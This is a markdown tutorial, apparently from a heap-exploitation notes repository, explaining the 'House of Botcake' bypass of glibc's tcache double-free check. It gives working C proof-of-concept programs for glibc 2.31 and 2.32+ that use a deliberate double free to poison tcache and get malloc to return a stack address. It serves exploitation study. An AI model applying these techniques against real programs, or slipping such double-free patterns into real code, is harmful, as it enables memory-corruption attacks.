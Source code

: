 <details>
<summary><strong>Description</strong></summary>
<p>

A new [patch](https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d) to restrict tcache double free...
> **TL;DR**:  when the chunk goes to tcache, chunk's `bk ptr` will be assign to key (point to tcache_per_thread (old libc) or random (new libc)) value. Whenever the program try to free a chunk, it will check if that chunk has key value assigned, if yes -> probably a double free...

house of botcake core mindset is to find a way modify key value, bypass this restriction...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://4xura.com/pwn/house-of-botcake/
- https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_botcake.c

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> I compiled this with glibc `2.39`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long stack_var[4], *x[7];

    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);
    long *prev = malloc(0x100);
    long *a = malloc(0x100); // chunk for later cosolidation
    malloc(0x10); // padding chunk, prevent consolidation

    // cause chunk overlapping
    for(int i = 0; i < 7; i++) free(x[i]); // fill tcache

    free(a); // free victim chunk, goes to unsortedbin
    free(prev); // free previous chunk, make it consolidate with victim chunk
    malloc(0x100); // add the victim chunk to tcache list by taking one out from it and free victim again

    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    long *unsorted = malloc(0x100 + 0x100 + 0x10);
    unsorted[0x110/8] = (long)stack_var ^ ((long)a >> 12); // mangle the pointer since glibc 2.32

    a = malloc(0x100); // get back victim chunk from tcache -> this will put target to tcache top
    long *target = malloc(0x100); // malloc arbitrary address
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var's value: 0x%lx\n", stack_var[0]);
    return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

the idea is simple, first we set up heap layout then free several chunks, fill the tcache and one goes to unsortedbin (`a` - victim chunk):

![](pics/img00.png)

as we can see, the victim chunk's `bk ptr` point to `main_arena`...

then we free the `prev` chunk, trigger consolidation of `prev` and `a`:

![](pics/img01.png)

voila, the `a`'s `bk ptr` is still there...

then we `malloc(0x100)` to take one chunk out from the tcache, make available space (in tcache) for the victim chunk...

and we free chunk `a` again, **remember that chunk `a` was freed** (so there must be double free primitive here)

now chunk `a` must goes to tcache, the program will compare chunk `a` key value (current is pointing to `main_arena`) with thread tcache key (random) value...

it probably pass the check (since they are different) so chunk `a` will goes to tcache...

![](pics/img02.png)

now chunk `a` exists in both tcache and unsortedbin, we can fengshui to make overlapping chunk...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> Compiled with glibc `2.31`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long stack_var[4], *x[7];

    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);
    long *prev = malloc(0x100);
    long *a = malloc(0x100); // chunk for later cosolidation
    malloc(0x10); // padding chunk, prevent consolidation

    // cause chunk overlapping
    for(int i = 0; i < 7; i++) free(x[i]); // fill tcache

    free(a); // free victim chunk, goes to unsortedbin
    free(prev); // free previous chunk, make it consolidate with victim chunk
    malloc(0x100); // add the victim chunk to tcache list by taking one out from it and free victim again

    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    long *unsorted = malloc(0x100 + 0x100 + 0x10);
    unsorted[0x110/8] = (long)stack_var; // no mangled pointer in glibc 2.31

    a = malloc(0x100); // get back victim chunk from tcache -> this will put target to tcache top
    long *target = malloc(0x100); // malloc arbitrary address
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var's value: 0x%lx\n", stack_var[0]);
    return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

The idea stay the same, just need to modify the POC a little since there is no mangled ptr mechanics in glibc `2.31`...

</p>
</details>


